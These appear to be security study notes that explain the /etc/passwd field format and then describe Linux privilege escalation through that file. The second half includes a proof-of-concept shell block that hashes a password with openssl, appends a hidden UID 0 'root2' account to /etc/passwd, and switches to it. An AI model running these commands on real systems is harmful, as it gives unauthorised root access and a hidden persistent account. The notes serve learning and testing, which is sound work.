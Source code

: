 ### The structure of the passwd file is as follows

<code> oracle:x:1021:1021:Oracle Services:/data/network/oracle:/bin/bash </code>

* Each line of the passwd file represents a set of parameters belonging to a user
* Parameters are separated with :
* Each parameter position is described below (source: [cyberciti](https://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/))

1. **Username**: It is used when user logs in. It should be between 1 and 32 characters in length.
2. **Password**: An x character indicates that encrypted password is stored in /etc/shadow file. Please note that you need to use the passwd command to computes the hash of a password typed at the CLI or to store/update the hash of the password in /etc/shadow file. Password hash may also be present here for backward compatibility, but it precedes the one in shadow file.
3. **User ID** (UID): Each user must be assigned a user ID (UID). UID 0 (zero) is reserved for root and UIDs 1-99 are reserved for other predefined accounts. Further UID 100-999 are reserved by system for administrative and system accounts/groups.
4. **Group ID** (GID): The primary group ID (stored in /etc/group file)
5. **User ID Info** (GECOS): The comment field. It allow you to add extra information about the users such as user’s full name, phone number etc. This field use by finger command.
6. **Home directory**: The absolute path to the directory the user will be in when they log in. If this directory does not exists then users directory becomes /
7. **Command/shell**: The absolute path of a command or shell (/bin/bash). Typically, this is a shell. Please note that it does not have to be a shell. For example, sysadmin can use the nologin shell, which acts as a replacement shell for the user accounts. If shell set to /sbin/nologin and the user tries to log in to the Linux system directly, the /sbin/nologin shell closes the connection.

### Use of passwd for privilege escalation

* privilege escalation on Linux may make use of passwd file if something can be appended to it (perform recon)
* For example kernel exploit can be compiled to execute arbitrary command to add a line to passwd file as root to make a hidden user with admin rights...

So to **make oracle user root account**, it is sufficient to add following line

<code> oracle:x:0:0::/:/bin/bash </code>

Additionally one may generate a password hash with crypt function and add it the second position instead of x. 

```bash
#POC for password generation and injection into /etc/passwd

openssl passwd w00t
#Fdzt.eqJQ4s0g

echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd

su root2
w00t

id
```
